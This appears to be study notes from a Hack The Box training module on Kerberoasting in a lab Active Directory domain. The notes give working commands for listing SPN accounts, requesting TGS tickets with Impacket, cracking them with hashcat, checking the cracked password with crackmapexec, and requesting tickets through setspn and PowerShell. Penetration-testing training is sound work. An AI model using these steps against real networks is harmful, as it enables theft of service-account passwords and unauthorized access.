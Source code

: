 ## Table of Contents

  - [Kerberoasting - Performing the Attack](#Kerberoasting\-\Performing\the\Attack)
  - [Kerberoasting with GetUserSPNs.py](#Kerberoasting\with\GetUserSPNs.py)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Cracking the Ticket Offline with Hashcat](#Cracking\the\Ticket\Offline\with\Hashcat)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)
  - [Kerberoasting - Semi Manual method](#Kerberoasting\-\Semi\Manual\method)
      - [Enumerating SPNs with setspn.exe](#Enumerating\SPNs\with\setspn.exe)
      - [Targeting a Single User](#Targeting\a\Single\User)

## Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.


Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

## Kerberoasting with GetUserSPNs.py

A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.





**Start By Gathering a listing of SPN's within the domain**
	will need a set of valid domain credentials and the IP address of a Domain Controller
#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

We can now pull all TGS tickets for offline processing using the `-request` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.

#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the `sqldev` account.

#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```


#### Cracking the Ticket Offline with Hashcat

  Cracking the Ticket Offline with Hashcat

```shell
gdxqpardo@htb[/htb]$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

#### Testing Authentication against a Domain Controller

  Testing Authentication against a Domain Controller

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## Kerberoasting - Semi Manual method

Before tools such as `Rubeus` existed, stealing or forging Kerberos tickets was a complex, manual process. As the tactic and defenses have evolved, we can now perform Kerberoasting from Windows in multiple ways. To start down this path, we will explore the manual route and then move into more automated tooling. Let's begin with the built-in [setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to enumerate SPNs in the domain.

#### Enumerating SPNs with setspn.exe

  Enumerating SPNs with setspn.exe

```cmd-session
C:\htb> setspn.exe -Q */*
```
#### Targeting a Single User

  Targeting a Single User

```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```


























